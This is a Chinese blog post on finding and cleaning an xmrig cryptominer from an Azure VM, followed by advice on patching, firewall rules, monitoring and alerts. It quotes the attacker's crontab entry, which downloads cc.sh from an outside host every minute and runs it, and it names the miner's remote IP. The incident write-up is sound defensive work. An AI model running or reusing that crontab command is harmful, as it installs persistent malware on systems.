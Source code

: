 ```yaml
---
layout: default
author: liuning0820
tags: [cloud]
comments: true
---
```


# 云安全的重要性：记录一次云主机被挖矿攻防

最近发现我的一台Azure VM 超出150美元的月度限额导致VM 直接关机。

通过Azure Monitor 上 可以看出一段时间内CPU，Network Out Total 严重异常，出口流量暴增，CPU 近100%。

![](images/2021-02-27-10-21-05.png)

重新开机并立即关闭80，443 端口，并限定了22 端口仅限本机访问， 然后SSH上去开始尝试寻找问题原因。

1. 首先通过 **htop** 检查导致高CPU的进程,发现名为**xmrig**的进程导致100%

2. 检查crontab 查看是否有自启动的job，果然发现有，杀掉进程后并删除crontab job。

```sh
*/1 * * * * cd /tmp/node-v10.15.3-linux-x64/bin;rm -rf cc.sh;wget http://8306.org/cc.sh;chmod 777 cc.sh;bash cc.sh /dev/null 2>&1

```

## 如果从SRE角度去主动侦测

上述的步骤是事后诸葛亮， 是被动的应对，决定尝试一下主动侦测并提前响应，以免像我一样早上上面的损失。

1. 升级系统补丁

可以选择定时任务去执行下面的命令也可以在配置云主机的时候设置自动升级补丁包

```sh
sudo apt upgrade && sudo apt update
```

2. 设置安全组和Inbound/Outbound 规则

3. 通过监控工具主动发现异常

![](images/2021-02-27-10-42-45.png)

从这里可以看到这个**xmrig**的进程通过13333这个端口从我的 Azure VM 跟目标机器 101.32.200.219 这台机器进行通信。

通过IP 我们可以定位出目标IP 对应的ISP 是腾讯云上的一台云主机。

![](images/2021-02-27-10-46-59.png)

到这一步，我在想，是不是我们遇到重大损失的时候就可以报案并联系IPS运营商去协助从源头上解决问题。

当然，对于小损失，像我这样的，我们可以吃一堑长一智，至少可以把对方的IP 加到inbound/outbound blocklist里。

![](images/2021-02-27-10-52-22.png)

4. 设置Alert 主动通知和干预

因为此次工具主要是用的云主机资源用来挖矿，对我的账单影响比较大的地方是出口流量费用。为了避免损失，我结合Azure 的Metrics 设置了
Alert。

![](images/2021-02-27-10-55-41.png)

一旦发现一段时间内的流量异常，就通过邮件发送通知，并自动执行任务暂时关闭主机，阻止近一步的损失。


## 还有什么可以做的？

欢迎大家留言，提出保障云主机安全的见解和建议。
